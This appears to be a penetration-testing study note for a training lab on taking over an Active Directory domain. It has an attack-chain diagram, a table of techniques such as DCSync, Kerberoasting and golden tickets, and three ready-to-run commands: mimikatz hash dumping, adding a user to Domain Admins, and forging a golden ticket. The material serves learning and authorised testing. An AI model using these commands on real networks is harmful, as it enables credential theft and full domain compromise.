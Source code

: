 _Goal: Gain full administrative control of the Active Directory domain._

---

### **Objectives**

- Identify domain admin accounts or paths to them
    
- Capture or forge credentials or Kerberos tickets
    
- Use misconfigurations or attack chains to obtain domain-level privileges
    

---

### **Mermaid Diagram**

```mermaid
graph TD
    A[Multiple Compromised Hosts] --> B[Identify DA Paths via BloodHound or Manual Analysis]
    B --> C[Exploit Path: Credential, ACL, or Kerberos Attack]
    C --> D[Capture or Forge Domain Admin Token or Ticket]
    D --> E[Access Domain Controller or Critical Infrastructure]
    E --> F[Perform DCSync or Take Over Domain]
```

  

---

### **Techniques and Tools**

|**Technique**|**Tool/Command**|**Notes**|
|---|---|---|
|DCSync Attack|secretsdump.py, mimikatz lsadump::dcsync|Requires Replication rights or access to domain controller|
|Kerberoasting|GetUserSPNs.py, Get-DomainUser -SPN, hashcat|Crackable service account ticket leads to privileged access|
|AS-REP Roasting|GetNPUsers.py, Rubeus asreproast|Crack offline, works for preauth-disabled users|
|ACL Attack (GenericAll, WriteDACL)|PowerView, Set-DomainObject, Add-DomainGroupMember|Abuse rights to modify privileged group membership|
|ExtraSID / SID History Abuse|mimikatz, kerberos::golden, SID injection|Forge ticket with injected SID|
|Token Impersonation|Incognito, mimikatz token::elevate, Invoke-TokenManipulation|Use stolen token from DA session|
|Golden Ticket Attack|mimikatz kerberos::golden|Requires domain SID and krbtgt NTLM hash|
|Overpass-the-Hash|Rubeus, mimikatz sekurlsa::pth|Inject TGT from NTLM hash for DA account|

  

---

### **Example: DCSync via Mimikatz**

```
lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:administrator
```

  

---

### **Example: Add User to Domain Admins via ACL Abuse**

```
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'hacker' -Credential $Cred -Verbose
```

  

---

### **Example: Golden Ticket Forgery**

```
kerberos::golden /user:hacker /domain:inlanefreight.local /sid:<domain_sid> /krbtgt:<ntlm> /ptt
```

  

---

### **Pro Tips**

- BloodHound is invaluable for identifying hidden DA paths (via sessions, RBCD, ACLs)
    
- After obtaining DA, run DCSync to extract all domain hashes
    
- Clean up or **rotate krbtgt** after testing golden tickets to prevent long-term compromise
    
- Dump **GPOs, DNS zones, SYSVOL**, and scan **privileged scripts** post-DA
    

